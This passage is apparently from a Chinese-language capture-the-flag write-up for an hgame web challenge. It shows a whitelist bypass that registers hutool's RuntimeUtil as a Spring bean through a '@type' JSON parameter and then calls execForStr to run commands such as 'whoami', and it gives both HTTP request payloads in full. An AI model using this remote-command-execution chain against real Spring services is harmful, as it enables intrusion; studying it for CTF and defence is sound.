

但是我们并不知道这里的白名单是什么，本地启动一下看看吧



可以看到这些就是白名单了

```java
spring.jmx-org.
spring.sql.
server-org.springframework.
spring.servlet.
cn.hutool.
spring.lifecycle-org.
spring.info-org.
spring.web-org.
org.springframework.
spring.ssl-org.
spring.mvc-org.
spring.task.
spring.jackson-org.
```

那么这里的话可以用到hutool中的RuntimeUtil，里面封装了JDK的Process类用于执行命令行命令

https://plus.hutool.cn/pages/9593de/

那我们可以用cn.hutool.extra.spring.SpringUtil#registerBean方法注册一个RuntimeUtil

```java
    public static <T> void registerBean(String beanName, T bean) {
        ConfigurableListableBeanFactory factory = getConfigurableBeanFactory();
        factory.autowireBean(bean);
        factory.registerSingleton(beanName, bean);
    }
```

然后调用execForStr执行命令

```java
    public static String execForStr(String... cmds) throws IORuntimeException {
        return execForStr(CharsetUtil.systemCharset(), cmds);
    }

    public static String execForStr(Charset charset, String... cmds) throws IORuntimeException {
        return getResult(exec(cmds), charset);
    }
```

所以最后的poc是

```http
POST /api/gateway HTTP/1.1
Host: hgame.vidar.club:30213
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: keep-alive
Content-Type: application/json
Content-Length: 155

{
  "beanName": "cn.hutool.extra.spring.SpringUtil",
  "methodName": "registerBean",
  "params": {
    "arg0": "execPOC",
    "arg1": {
      "@type": "cn.hutool.core.util.RuntimeUtil"
    }
  }
}
```

然后执行命令

```http
POST /api/gateway HTTP/1.1
Host: hgame.vidar.club:30213
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: keep-alive
Content-Type: application/json
Content-Length: 92

{"beanName":"execPOC","methodName":"execForStr","params":{"arg0":"utf-8","arg1":["whoami"]}}
```



然后执行根目录下的readflag程序就能拿到flag了
